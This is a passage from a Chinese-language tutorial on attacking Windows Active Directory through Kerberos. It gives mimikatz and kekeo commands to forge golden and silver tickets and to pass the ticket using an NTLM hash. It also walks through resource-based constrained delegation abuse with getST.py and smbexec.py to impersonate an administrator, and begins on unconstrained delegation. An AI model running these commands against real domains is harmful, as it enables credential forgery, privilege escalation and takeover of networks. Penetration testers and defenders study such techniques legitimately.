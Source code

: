上面的金票据是伪造的TGT，银票据是伪造TGS，由服务账号密码加密而成。

利用方法：

mimikatz.exe  "kerberos::golden /domain:域 /sid:SID /target:域控全称 /service:要访问的服务，如cifs /rc4:NTLM，计算机账号hash /user:user /ptt"dir  \\server\c$

![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0GtNsUSjJVhH4URDkPbKlRRIC7IL224tcH2E4rjzxkmpjRbBJSren9Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

**5.5.1.3kekeo**

利用kekeo进行ptt：

kekeo  "tgt::ask /user:test1 /domain:test.local  /ntlm:7ECFFFF0C3548187607A14BAD0F88BB1"

执行后生成票据 TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi

接下来导入票据：

kekeo  "kerberos::ptt TGT_test1@TEST.LOCAL_krbtgt~test.local@TEST.LOCAL.kirbi"dir  \\server\c$

### **5.5.2委派**

**5.5.2.1 基于资源的约束委派**

个人简单理解为A机器设置基于资源的约束委派给B(设置msDS-AllowedToActOnBehalfOfOtherIdentity属性)，则B可以通过s4u协议申请高权限票据对A进行利用。利用过程如下：

普通域用户默认可以添加10个机器账号，添加spnspnspn$并设置msds-allowedtoactonbehalfofotheridentity：

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0DTRXicnpyhh0VgpLz0xW4icJdW7K8yAO1AZfLb2wLEfnlp3knoicbibibAQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

get-adcomputer  win7 -properties principalsallowedtodelegatetoaccount

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0XQc7DW0EkhqGOlWDz5lzCQDQYhiam9Ebz83tSLxbZR1T7qE2AJq3Snw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

利用s4u协议申请高权限票据：

getST.py  -dc-ip 172.16.127.173 jumbolab.com/spnspnspn\$:spnspnspn -spn cifs/win7.jumbolab.com -impersonate  administrator

导入票据：

export  KRB5CCNAME=administrator.ccache

访问目标机器：

smbexec.py -no-pass -k -debug win7.jumbolab.com

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0ogMBiaf1A8Sh8ycoOy0h0pFqMVW7LajxVOXytT8uVIjtfWic3He5eR8Q/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />

**5.5.2.2非约束委派**

个人简单理解为user访问service1服务时，如果service1服务开启了非约束委派，则在user访问service1服务时，会把自身的tgt发送给service1，因此service1可以利用user的tgt去访问user可以访问的服务。利用过程如下：

win7机器开启了非约束委派：

<img src="https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I00alAFg356zOzvGOnNKKAVOicE6X7uTDDCNiaklNlPqcp6FUalu3TSf7w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1" alt="图片" style="zoom:50%;" />
